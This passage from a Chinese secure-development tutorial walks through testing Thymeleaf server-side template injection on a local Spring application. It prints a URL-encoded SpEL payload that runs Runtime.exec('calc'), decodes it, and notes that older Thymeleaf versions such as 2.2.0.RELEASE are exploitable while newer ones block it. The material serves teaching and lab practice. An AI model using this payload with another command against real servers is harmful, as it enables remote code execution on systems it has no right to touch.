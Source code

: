 #### 2. 启动项目，并输入对应路由访问，指向渲染文件的文件名[?lang=index-en](http://127.0.0.1:8080/?lang=index-en)

http://127.0.0.1:8080/?lang=index-en

![image-20250814153517999](038安全开发.assets/image-20250814153517999.png)

3.替换为注入

```
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x
```
（注：上述字符串是URL编码后的恶意模板代码，解码后为`__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x`，意图执行calc命令弹出计算器）

发现报错
![image-20250814153840076](038安全开发.assets/image-20250814153840076.png)

原因：Thymeleaf版本问题。高版本Thymeleaf对模板表达式做了严格限制，禁止执行危险的Java代码，而低版本（如2.2.0.RELEASE）存在防护缺陷，可能被利用。
